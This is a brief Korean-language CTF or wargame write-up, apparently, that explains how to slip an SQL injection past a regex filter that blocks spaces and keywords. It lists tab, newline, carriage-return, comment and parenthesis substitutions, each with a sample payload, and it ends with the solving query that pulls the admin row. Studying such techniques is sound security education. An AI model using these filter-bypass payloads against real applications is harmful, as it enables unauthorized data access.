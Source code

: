 * regex를 보면,
    *  |\/|\(|\)|\||&|select|from|0x
        * '\' '(' ')' '&' '&' '|' 'select' 'from' '0x' ' '를 포함하지 않아야 한다.
        * guest의 no=1, admin의 no=2인데, 이를 방지하기 위해서는
        * no=12 or no=2와 같은 query를 집어넣어야 한다
        * 근데 space에 해당하는 값이 걸러지므로, tab에 해당하는 값을 넣어주자
    * space bar가 허용되지 않을때, 사용할 수 있는 목록
        * Tab: %09
            - ex)no=111%09or%09no=2
        * Line Feed(\n): %0a
            - ex)no=111%0aor%0ano=2
        * Carrage Return(wr): %0d
            - ex)no=111%0dor%0dno=2
        * 주석: /**/
            - ex)no=111/**/or/**/no=2
        * 괄호: ()
            - ex)no=(111)or(no=2)
    * answer query: 12%09or%09no=2